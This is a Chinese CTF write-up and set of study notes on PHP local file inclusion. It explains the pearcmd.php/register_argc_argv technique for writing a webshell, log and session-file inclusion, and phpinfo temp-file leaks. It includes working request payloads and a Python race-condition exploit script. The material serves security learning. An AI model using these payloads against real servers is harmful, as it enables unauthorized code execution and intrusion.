对这个知识点的思考起源于前两天打的两场CTF,题目源码如下
<?php
error_reporting(0);
@$file = $_GET["file"];
@$dir = $_GET["dir"];
function waf()
{
if(isset($_FILES["file"]["tmp_name"]))
{
$content = file_get_contents($_FILES["file"]["tmp_name"]);
if(preg_match('/[^cool]+/i', $content) !== 0)
{
die('You are not cool!');
}
}
}
waf();
if(isset($file) && isset($dir))
{
if (preg_match('/data|fl|input|read/i', $file) || strstr($file,"../") !== FALSE )
{
echo "<p> error! </p>";
}
else
{
var_dump(@scandir($dir));
include $file;
}
}
else
{
highlight_file(__FILE__);
}
?>
这题我遇到了两次，也两次都不会做，直到昨天我看p牛发了新文章
https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html
虽说我觉得预期解不一定是这样的
大家有什么其他方法可以给我留言说一下
对PHP裸文件本地包含的理解
p牛在讲这片文章事前置了很多的知识，不过多数其实是对这个利用点的引出
所以我这里先说结论
一、pearcmd.php
这个点主要是使用了pearcmd.php这个pecl/pear中的文件。
PEAR PHP扩展和应用程序存储库（PHP Extension and Application Repository）是可重用PHP组件的框架和分发系统。
PECL（PHP扩展社区库）是PHP扩展的存储库，提供了所有已知扩展的目录和托管设施，用于下载和开发PHP扩展。
++++

+++
关于这个点p牛也说得很清楚
我主要关注后一段，docker任意版本都会默认安装，要知道现在的CTF几乎所有的Web题目都是搭建在docker中的，这意味着只要CTF存在文件包含，这一点就可以利用，堪称通杀
二、register_argc_argv配置
第二个点同样在docker中默认开启，当然真实环境中默认关闭
docker

真实环境，我这里是phpstudy,php7.3.4

当这个选项开启后，用户的query-string将赋值给$argc、$argv、$_SERVER['argv']几个变量。
这个部分我也并不是很懂，所以只能给出一个简单的结论：我们GET传入的值h会被当作一个命令行参数，比如
http://127.0.0.1/index.php?test
这里的test没有任意的意义，但会当作命令行参数

将这两个点结合起来，所谓裸文件包含漏洞就产生了
第一点中pear会获取命令行argv参数执行，第二点可以将可控参数写入argv
为什么叫裸文件，因为docker下搭建的php默认开启了这两个配置，所以在出题人没有改的情况下，只需要有文件包含就可以利用
+++
pearcmd.php的所有命令

+++
其中我们使用的是config-create命令
这个命令需要传入两个参数，其中第二个参数是写入的文件路径，第一个参数会被写入到这个文件中。
攻击实例
文章开始的那道题，就是这个的漏洞的典型例子

用这个漏洞，上面的waf就不用管了
条件：存在file和dir，过正则
/index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/+/tmp/aaa.php&dir=.

这里要注意两个问题
1、不能用hackbar直接上传payload而是需要先burp抓包再上传
直接上传会导致<>被编码，php代码无法执行

2、访问时应该是?file=/tmp/aaa.php%26dir%3D.&dir=.
在payload上传时，必须存在dir参数，但argv会将两个参数完整的保存下来，导致我们的文件名变成
/tmp/cmd1.php%00&dir=.
所以访问时要先将dir=. 进行url编码，然后再去访问

如果觉得这样很麻烦或者无法理解，可以将payload改成如下形式
index.php?dir=.&+config-create+/&file=/usr/local/lib/php/pearcmd.php&/+/tmp/ffff.php
这样保存的文件名就是/tmp/ffff.php

理解payload
1、payload首先利用register的机制，将整个payload写入了argv
2、file是题目代码中对文件包含的引用，也就是包含了/usr/local/lib/ogo/pearcmd.php这个文件
执行顺序
1、写入payload至argv
2、包含pearcmd.php
3、pearcmd.php读取argv
此时dir=.无效，config-create被匹配为命令
命令以空格为分割（加号）
所以
/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>成为了第一个参数，/tmp/ffff.php为第二个参数phpinfo()被写入/tmp/fff.php
对前置引用知识点的理解
主菜我放前面啃完了，可按我的一贯原则，前缀既然提到了这些“副菜”,那我肯定不会放过
所以现在来从头啃前置的知识点
学习的过程其实很有趣，痛苦的永远是仔细学完后却用不出来，WEB这点到真不如开发
学完就能用的感觉，真的就很快乐
日志文件包含
上面说了点废话，这里再说点
虽然这篇文章是参考p牛，但我并不打算向p牛一样从前置一直写到最终目的。我会将所有的知识来拆开写
言归正传
日志包含参考文章：https://blog.csdn.net/weixin_45785288/article/details/109730830
Apache运行后一般默认会生成两个日志文件，这两个文件是access.log(访问日志)和error.log(错误日志)，Apache的访问日志文件记录了客户端的每次请求及服务器响应的相关信息。
在docker中有所不同，docker会将日志重定向到stdout和stderr发送到真实设备
所以docker一般无法通过日志包含getshell
apache的日志文件会记录每次访问的响应信息和url请求数据
用户对apache日志有访问权限
这样就会产生日志包含漏洞
我们可以直接写入不存在的请求，如
index.php/

在有权限读取日志文件的情况下，可以文件包含
日志文件目录格式
// web应用日志在Linux系统的格式基本统一
/var/log/[Web应用服务名称]/access.log
例如：
/var/log/apache2/access.log
phpinfo有趣的使用方式
第二个点p牛讲的是关于临时文件包含和phpinfo的作用，但我觉得临时文件我们已经很熟悉了，这里直接写写phpinfo的利用方式
在此之前，我对phpinfo的认识只停留在查看开启的服务，禁用的函数上
phpinfo页面中会输出本次请求的所有信息
如果上传文件，也会显示文件名，比如：

得到了临时文件名
在phpinfo页面做的操作都会在phpinfo中显示，相当于小型debug了
Windows通配符
Linux系统的通配符在之前就学习过，windows的通配符还是第一次遇到，所以简单写一下
PHP在读取Windows文件时，会使用到FindFirstFileExW这个Win32 API来查找文件，而这个API是支持使用通配符的
++++

+++
session.upload_progress与Session文件包含
PHP中可以通过session progress功能实现临时文件的写入。
条件：
- 目标环境开启了 session.upload_progress.enable 选项
- 目标环境关闭了 session.upload_progress.cleanup 选项
- 发送一个文件上传请求，其中包含一个文件表单和一个名字是
PHP_SESSION_UPLOAD_PROGRESS的字段 - 请求的Cookie中包含Session ID
原理:
当session.upload_progress.enable开启时，php会将用户上传的文件星系保存在Session中
php中Session默认保存在文件里
如果session.upload_progress.cleanup开启，那么php上传请求读取完成后Session会被自动情路，导致无法读取Session

+++
exp
import threading
import requests
from concurrent.futures import ThreadPoolExecutor, wait
target = 'http://192.168.1.162:8080/index.php'
session = requests.session()
flag = 'helloworld'
def upload(e: threading.Event):
files = [
('file', ('load.png', b'a' * 40960, 'image/png')),
]
data = {'PHP_SESSION_UPLOAD_PROGRESS': rf'''<?php file_put_contents('/tmp/success', '<?=phpinfo()?>'); echo('{flag}'); ?>'''}
while not e.is_set():
requests.post(
target,
data=data,
files=files,
cookies={'PHPSESSID': flag},
)
def write(e: threading.Event):
while not e.is_set():
response = requests.get(
f'{target}?file=/tmp/sess_{flag}',
)
if flag.encode() in response.content:
e.set()
if __name__ == '__main__':
futures = []
event = threading.Event()
pool = ThreadPoolExecutor(15)
for i in range(10):
futures.append(pool.submit(upload, event))
for i in range(5):
futures.append(pool.submit(write, event))
wait(futures)
+++
异常退出php以保留临时文件
如果仅仅是为了执行一次命令，比如CTF比赛，直接条件竞争临时文件没有问题，但如果想长久的将文件保存，有两种方法
一、目前最常用的办法：在临时文件中执行shell将木马写入其他文件
二、使php异常退出让存有木马的临时文件得以留存
之所以需要方法二，是因为在无法快速得知临时文件名的情况下，不可能通过爆破的手段得到临时文件名，所以让临时文件保存下来慢慢爆破无疑是个好选择
+++

这个漏洞在7.1.20以后被修复

+++